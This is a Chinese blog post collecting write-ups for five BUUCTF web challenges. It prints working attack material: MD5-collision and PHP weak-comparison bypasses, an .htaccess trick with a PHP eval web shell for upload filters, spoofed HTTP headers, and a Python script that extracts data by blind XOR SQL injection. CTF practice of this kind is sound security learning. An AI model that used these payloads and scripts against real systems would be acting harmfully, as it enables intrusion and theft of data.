




<!--yml
category: 未分类
date: 2022-04-26 14:28:48
-->

# BUUCTF__web题解合集（三）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/107634449](https://blog.csdn.net/TM_1024/article/details/107634449)

## 一、前言

## 二、题目

### 1、[MRCTF2020]Ez_bypass

*   这题就很简单了，F12得到美观源码。

*   审计一下，发现出flag的条件有两个，先就是get传入`id`和`gg`的md5值强比较（`===`）相等但`id`和`gg`不相等。

*   这个很简单，上次说过的两个真实相等的md5值相等，记下来准没错。分别赋值给`id`和`gg`就行。

    ```
    a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

    b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
    ```

*   然后就是post传入的`passwd` 不能为数字字符串但需要`==` 1234567，也很简单，1234567加个字母就行，比如说`1234567a` 。利用的就是PHP中`==`弱类型比较。可以简单[了解一下](https://blog.csdn.net/baidu_41871794/article/details/83750615)。

*   总结：很简单。

### 2、[GXYCTF2019]BabyUpload

*   也是很简单的一题。

*   首先上传一个php文件，提示文件名后缀不能有ph，那一般方法直接凉凉。所以想到图片马。图片马往往结合其它东西一起生效，比如说`.htaccess` 文件。所以尝试用它来修改解析方式，让它以PHP的形式解析图片马。

    ```
    <FilesMatch "1">
    SetHandler application/x-httpd-php
    </FilesMatch> 
    ```

*   上面的作用就是把文件名含有1的文件以PHP的形式解析，比如说 1.jpg 。

*   但上传时提示上传类型有问题，所以想到修改 `MIME类型` 。
    

*   所以，抓包修改。上传成功。
    

*   然后再上传图片马，但使用 `<?php @eval($_POST['post']) ?>` 作为一句话时，提示还是PHP，所以尝试用js标签替换php标签。

    ```
    <script language="php">eval($_POST['a']);</script> 
    ```

*   成功上传，然后也有返回上传路径，直接蚁剑连接运行虚拟终端，执行`cat /flag` 就成功解题。

*   总结：也很简单的一题。

### 3、[MRCTF2020]你传你🐎呢

*   原理和解题方法和上一题是一样的。也挺简单。
*   总结：难得有几道简单题。

### 4、[BJDCTF 2nd]假猪套天下第一

*   这题有点🐕。。。

*   提示居然抓包才能看见，控制台和查看页面源码都没看见，着实狗。。。 

*   提示了一个 `L0g1n.php` 。访问，提示得99年之后才开放。抓包在cookie中发现时间参数time，直接给它换成time=9999999999999，随便，大就完事了。

*   然后接下来就是一套的http的header请求头参数的使用。

*   先是告诉你只能在本地访问，必然先想到

    ```
    X-Forwarded-For:127.0.0.1 
    ```

*   加上之后提示你不行，所以使用`Client-IP`或者`X-Real-IP` 替换它。但网上的关于header请求头参数的介绍，我都没有找到它两，其中`Client-IP` 更是单独搜索都没找到详细介绍。[X-Forwarded-For 和 X-Real-IP 的区别？](https://blog.csdn.net/weiyuefei/article/details/78687545)

    ```
    X-Real-IP:127.0.0.1 
    ```

*   继续往下，提示来自 gem-love.com，可以用`Referer`参数

    ```
    Referer:gem-love.com 
    ```

*   然后提示得用 Commodo 64 浏览器，虽然知道是 修改`User-Agent` 参数，但也不知道改为什么。。。全网未找到。。。告辞了。

    ```
    User-Agent: Contiki/1.0 (Commodore 64; http://dunkels.com/adam/contiki/) 
    ```

*   继续提示邮箱，用`From`参数设置。

    ```
    From:root@gem-love.com 
    ```

*   提示代理访问，用`Via`参数设置。

    ```
    via:y1ng.vip 
    ```

*   最后base64解码完成解题。
    

*   总结：很狗这题，首先是提示得抓包才能看到，其次关于 Commodo 64 浏览器的 User-Agent 信息找不到。[关于大部分header请求头参数的介绍](https://www.cnblogs.com/benbenfishfish/p/5821091.html)

### 5、[极客大挑战 2019]FinalSQL

*   题目暗示的很明显了，注入点在 /search.php?id ，并且是sql盲注。
*   再进一步测试，发现`id=1^0`回显1， `id=1^1` 回显 报错。确定为异或注入。[异或的原理](https://www.cnblogs.com/vincy99/p/9642956.html)就不必多说。
*   所以，最重要的就是写脚本了。因为不知道，flag的位置，所以只有从数据库、表、字段都爆一遍了。
*   只需要替换下列的sql变量就行。注意空格缩进。

```
 import re
import requests
import string

url = "http://5dbbc107-a871-4d45-940a-3b2712330fee.node3.buuoj.cn/search.php"
flag = ''
def payload(i,j):

    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1"%(i,j)
    data = {"id":sql}
    r = requests.get(url,params=data)

    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res

def exp():
    global flag
    for i in range(1,10000) :
        print(i,':')
        low = 31
        high = 127
        while low <= high :
            mid = (low + high) // 2
            res = payload(i,mid)
            if res :
                low = mid + 1
            else :
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break

        flag += chr(f)
        print(flag)

exp()
print('flag=',flag) 
```

## 三、最后

*   确实，做题能很快提高水平，但没基础你会学的很痛苦。
*   加油，加油，加油。